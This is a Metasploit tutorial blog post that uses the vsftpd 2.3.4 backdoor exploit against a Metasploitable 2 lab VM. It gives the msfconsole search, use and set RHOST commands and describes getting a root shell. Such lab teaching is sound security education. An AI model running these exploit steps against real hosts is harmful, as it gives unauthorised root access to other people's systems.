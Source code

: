 ```yaml
---
title: "Metasploit Part 2: How to use Metasploit?"
date: 2019-01-05 13:30:30
tags:
  - Metasploit
---
```

In [Part 1](/why-metasploit/) of this series, we saw why we need Metasploit. In this post let us see the usage of it.

I am using Kali Linux. Kali has Metasploit pre-installed. If you are using any other operating system, you can google for Metasploit installation instructions for your operating system. 

So fire up the terminal and enter msfconsole
![msfconsole](https://i.imgur.com/fSHoC4p.png)

We can see the beautiful banner and version of the Metasploit framework. There are 1807 exploits and  539 payloads. 

Once in msfconsole, we need to
1. Search for exploits
2. Use the exploit
3. Set the options for the exploit
4. Set the Payload (if not set, default payload will be selected)
5. exploit

I downloaded the [Metasploitable 2 VM](https://sourceforge.net/projects/metasploitable/) and opened it in VMware Fusion 11.

A simple nmap scan reported the following services as open
![nmap](https://i.imgur.com/kvVfCxh.png)

Let's start with the first result of nmap. We got vsftpd 2.3.4 open on PORT 21. Let's do a google search for vsftpd 2.3.4
![vsftpd](https://i.imgur.com/ZvX1aWa.png)

So we found that a vulnerability exists with vsftpd 2.3.4. So now is the time to search for any exploits already available in Metasploit framework.

### Search for exploits
```sh
search vsftpd 2.3.4
```
![search](https://i.imgur.com/Lb0MFmq.png)
There are 2 exploits available. I am interested in backdoor command execution.

### Use the exploit
```sh
use exploit/unix/ftp/vsftpd_234_backdoor
```
![use](https://i.imgur.com/pOi1QIh.png)

### Set the options for the exploit
```sh
set RHOST 192.168.36.130
```
![set](https://i.imgur.com/6vsi4T2.png)

### Exploit
![exploit](https://i.imgur.com/FycZynd.png)

We got the shell with root access of the VM by exploiting the vulnerability in vsftpd 2.3.4

Did you observe? we did not mention anything about payloads and exploited the system. Because Metasploit selected default payload for this exploit. What if we want to select the payload? We will see that in the next post.
